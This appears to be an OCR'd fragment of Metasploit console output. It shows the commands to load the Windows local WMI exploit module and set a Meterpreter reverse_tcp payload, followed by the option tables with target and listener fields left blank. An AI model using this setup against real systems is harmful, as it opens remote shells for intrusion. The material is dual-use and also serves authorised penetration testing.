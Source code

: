 ```


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal
```

```
msf > use exploit/windows/local/wmi

msf exploit(windows/local/wmi) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/wmi) > options

Module options (exploit/windows/local/wmi):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   RHOSTS                                yes       Target address range or CIDR identifier
   ReverseListenerComm                   no        The specific communication channel to use for this listener
   SESSION                               yes       The session to run this module on
   SMBDomain                             no        The Windows domain to use for authentication
   SMBPass                               no        The password for the specified username
   SMBUser                               no        The username to authenticate as
   TIMEOUT              10               yes       Timeout for WMI command in seconds


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
